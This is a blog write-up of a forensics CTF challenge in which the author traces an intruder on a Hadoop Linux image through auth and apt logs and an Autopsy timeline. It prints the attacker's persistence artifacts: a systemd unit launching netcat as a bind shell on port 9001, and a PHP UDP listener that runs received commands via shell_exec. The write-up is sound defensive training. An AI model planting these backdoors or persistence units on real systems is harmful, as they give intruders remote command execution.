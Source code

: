 ```yaml
---
layout: single
title: "Magnet CTF Week 8 - Persistence in plain sight"
date: '2020-12-01T01:00:00+09:00'
author: "Joshua I. James"
tags:
  - infosec
  - dfir
  - CTF
  - Magnet
modified_time: ""
---
```


Magnet Forensics is running a *weekly* forensic CTF. More information can be found on their [blog](https://www.magnetforensics.com/blog/magnet-weekly-ctf-challenge/). It is a fun way to practice, so let's get to it!

### CTF Posts

[Week 1](https://dfir.science/2020/10/Magnet-CTF-Week-1-Timestamps-of-doom.html) | [Week 2](https://dfir.science/2020/10/Magnet-CTF-Week-2-URLs-in-Pictures-in-Pictures.html) | [Week 3](https://dfir.science/2020/10/Magnet-CTF-Week-3-Failed-connections.html) | [Week 4](https://dfir.science/2020/11/Magnet-CTF-Week-4-GUIDSWAP-and-drop.html) | [Week 5](https://dfir.science/2020/11/Magnet-CTF-Week-5-HDFS.html) | [Week 6](https://dfir.science/2020/11/Magnet-CTF-Week-6-Riddle-ELF.html) | [Week 7](https://dfir.science/2020/11/Magnet-CTF-Week-7-Hadoop-Nodes.html)

### Getting Started

Download the images from [Archive.org](https://archive.org/details/Case2-HDFS).

Week 8 question is in two parts. Answering the first question releases the other questions.

> Part One: What package(s) were installed by the threat actor? Select the most correct answer!

For the last three weeks, we have been looking at - what we thought - was an average user setting up Hadoop. But right under our nose was a sneaky threat actor. For this question, there are two things we need to do:

* Differentiate the threat actor from the normal user
* Identify packages the threat actor installed

In a Linux system, I always run to /var/logs/ first. There are two logs I'm interested in: /var/log/apt/term.log and /var/log/auth.log. Auth shows login events. Maybe there is something suspicious there. apt/term shows the package manager install information - including the command.

Looking through the auth.log, we can see around Oct 7 at 00:40; someone is trying to brute force SSH logins from 192.168.2.129. This isn't uncommon on Linux systems connected to the Internet, but 192.168.x.x is a local IP - whoops!

```bash
Oct  7 00:42:44 master sshd[2055]: Failed password for root from 
192.168.2.129 port 56194 ssh2
Oct  7 00:42:44 master sshd[2055]: Received disconnect from 
192.168.2.129 port 56194:11: Bye Bye [preauth]
Oct  7 00:42:44 master sshd[2055]: Disconnected from 
192.168.2.129 port 56194 [preauth]
Oct  7 00:42:44 master sshd[2055]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=
192.168.2.129  user=root
Oct  7 00:42:44 master sshd[2105]: Accepted password for hadoop from 
192.168.2.129 port 56246 ssh2
Oct  7 00:42:44 master sshd[2105]: pam_unix(sshd:session): session opened for user hadoop by (uid=0)
Oct  7 00:42:44 master systemd-logind[871]: New session 5 of user hadoop.
Oct  7 00:42:44 master sshd[2075]: Failed password for invalid user magnos from 
192.168.2.129 port 56204 ssh2
Oct  7 00:42:44 master sshd[2075]: Received disconnect from 
192.168.2.129 port 56204:11: Bye Bye [preauth]
Oct  7 00:42:44 master sshd[2075]: Disconnected from 
192.168.2.129 port 56204 [preauth]
```

Even worse, ```sshd[2105]``` was a successful login. If we look a bit later, we can see the following:

```bash
Oct  7 01:23:48 master sshd[2410]: Accepted password for hadoop from 
192.168.2.129 port 56406 ssh2
Oct  7 01:23:48 master sshd[2410]: pam_unix(sshd:session): session opened for user hadoop by (uid=0)
Oct  7 01:23:48 master systemd-logind[871]: New session 8 of user hadoop.
<!--snip-->
Oct  7 01:48:20 master sshd[2440]: Received disconnect from 
192.168.2.129 port 56406:11: disconnected by user
Oct  7 01:48:20 master sshd[2440]: Disconnected from 
192.168.2.129 port 56406
Oct  7 01:48:20 master sshd[2410]: pam_unix(sshd:session): session closed for user hadoop
Oct  7 01:48:20 master systemd-logind[871]: Removed session 8.
```

Now we have a time-frame for suspect activities - Oct 7 from 01:23:48 to 01:48:20 (local time). Twenty-five minutes on SSH is enough time to get up to some badness.

With our time-span in mind, let's jump over to the apt logs. Looking at /var/log/apt/history.log we have one package installed in the expected time-frame.

```bash
Start-Date: 2019-10-07  01:30:31
Commandline: apt install php
Install: php7.0-cli:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php-common:amd64 (1:35ubuntu6.1, automatic), php7.
<!--snip-->
End-Date: 2019-10-07  01:30:41
```

Trying "php", and **BING!** Success.

> Part Two: Why? (was the package installed) - options below:
* hosting a database
* serving a webpage
* to run a php webshell
* create a fake systemd service

Our first multiple-choice question! There are interesting because each option is essentially a hypothesis.

What we are interested in is what happened around the time the suspect was logged in? For that, I always love *timeline analysis*.

I decided to load the case up in Autopsy, which has a useful timeline tool. Timestamps in log files are based on the local clock setting at the time the log was written. However, I usually make Autopsy display UTC since I'm unsure what timezone this system was in.

I can calculate the offset since I know that PHP was installed on the 7th at 01:30. PHP7.0 was installed on Oct 6 at 22:30 UTC. That means that the time zone for the system must be UTC+3. When looking at the file-system meta-data in Autopsy, we are especially interested in Oct 6 22:23 to 22:49.

I'm also (initially) going to be interested in files created around that time. Modified will also be important, but I'll start with created to see what pops. Starting from Oct 6 at 01:30, we see PHP being installed with apt. Almost 60 seconds later, a systemd file was created named "cluster.service". Installing PHP does not install a cluster, so I'll mark that down as weird.

![Timeline view in Autopsy](assets/images/posts/2020-Autopsy-timeline-mwctf8.jpg)

If we explore the timeline from 22:30 to 22:39 only a few files are created, but they are nasty. At 22:34 we have some instances of netcat (nc) being installed. 22:37 netcat is successfully created as /usr/bin/master. At 22:38 we have another cluster.service created in systemd, this time executing netcat (as master).

```bash
[Unit]
Description=Daemon Cluster Service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/master -lvp 9001 -e /bin/bash

[Install]
WantedBy=multi-user.target
```

We also have .viminfo file created with a list of suspects, haha! This file does include evidence many file edits, including /etc/sytemd/system/cluster.service.

```bash
    ###         4. Mariam Khader.                                               ### 
"3  LINE    0
    ###         3. Israa Alshamari,                                             ###
"4  LINE    0
    ###         2. Ghazi Al-Naymat,                                             ### 
"5  LINE    0
    ###         1. Ali Hadi,                                                    ###
"6  LINE    0
    ###     Team Members from PSUT:
```

Going back a bit, I checked all times around when the suspect could have been in the system. Looking at 22:28 we see an /etc/network/interfaces~ file created. Also a bit suspicious. Taking a look, we see:

```bash
[Unit]
Description=Daemon Cluster Service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/env php /usr/local/hadoop/bin/cluster.php

[Install]
WantedBy=multi-user.target
```

These contents are also found in systemd and ssl/certs. The suspect is trying to get persistence. Netcat was interesting, but it didn't quite answer the question of why the suspect installed PHP. Execstart is trying to execute "cluster.php". Let's take a look:

```bash
<?php
error_reporting(0);
$sock = socket_create(AF_INET, SOCK_DGRAM, SOL_UDP);
//socket_set_option ($sock, SOL_SOCKET, SO_REUSEADDR, 1); 
if (socket_bind($sock, '0.0.0.0', 17001) == true) {
        $error_code = socket_last_error();
        $error_msg = socket_strerror($error_code);
        //echo "code: ", $error_code, " msg: ", $error_msg;
        for (;;) {
            socket_recvfrom($sock, $message, 1024000, 0, $ip, $port);
            $reply = shell_exec($message);
            socket_sendto($sock, $reply, strlen($reply), 0, $ip, $port);
        }
else {  exit;   }
```

Here is a PHP script setting up a socket on port 17001 - listening for a connection. PHP will use shell_exec to run the command locally and send the output back through the socket based on the commands received. In other words, run local commands from a remote system. Netcat does the same thing.

So, why was PHP installed? Honestly, I thought the closest right answer was to "run a PHP webshell," but that was incorrect. The next best answer was to "create a fake systemd service". **BING!** Success.

I saw no evidence of a database or a web page. To make sure, I checked the php.ini configs and whether /var/www existed (it didn't).

### Lessons learned

For most of the CTF, I've been using command-line tools or new-to-me tools that I wanted to play with. This week, I went back to Autopsy and visualized timelines. I (re)learned that a good timeline visualization with a supported suspect time range could save a lot of time. In this case, I was able to get a good time-range with auth.log. Zooming the timeline to that range pretty much tells the whole story.